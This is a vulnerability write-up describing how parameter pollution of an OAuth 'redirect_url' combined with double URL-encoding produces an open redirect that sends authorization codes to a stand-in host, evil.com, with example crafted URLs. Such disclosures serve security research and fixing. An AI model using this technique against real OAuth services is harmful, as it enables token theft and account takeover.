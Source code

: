 # Steal the OAuth code or token with an open redirect because of a parameter pollution .

## How:

The application provides a service for third party applications to create an oauth app with it, Lets call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So inorder to do this the third.com has to ask example.com to make him an oauth application, This is just to demonstrate the feature .

So what happens after you clicking on signin with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
**https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value]** , So by visiting this endpoint example.com will ask you to consent third.com then redirects you back to third.com with the oauth code .


So I thought about what will happen if I added another redirect_url parameter like this **https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value]**, By doing this I found that example.com redirects me to third.com but with this intersting way **https://third.com/callback/,https://evil.com?code=[some value]&state=[some value]**, Noticed the  **,http://evil.com**, I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this **redirect_url=https://third.com/callback&redirect_uri=https://evil.com** and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can i get an openredirect by this clearly the client code adds the character "," before appending the two redirect_uri like this **https://third.com/callback,https://evil.com**, I thought about removing the https:// part from the second redirect_uri and add a dot charater like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has , or / .


So what about adding @ sign rather than using dot but ofcourse this didn't work also because if you redirected to endpoint like this **https://third.com/callback/,@evil.com** it won't redirect you to evil.com, So what is about encoding, If tou tried to paste this in a browser admin@evil.com you will see that a browser like firefox treats the first part befor @ as a user name so it's like conecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this **https://third.com%252Fcallback%252F**.


Why double encode it? because, If you redirected to an endpoint like this **https://third.com%2Fcallback%2F,@evil.com** you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decode it %2F but the second time it won't decode it to / so that the final redirection will be like this **https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state]** and you will be redirected to evil.com with the oauth code and you succedded to steal the oauth code.


So where is the problem? at the backend however that it recieves the first redirect_uri like this **https://third.com%252Fcallback%252F** but what it does is that it double decodes it then validate it against the stored value and ofcourse it will be true so it will return the oauth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the oauth code so the impact is low .

Ehat is the impact? the impact is high this application provides oauth apps to third party applications so every third party application is affected by it, It can lead to account takeover or sensitive data leak .


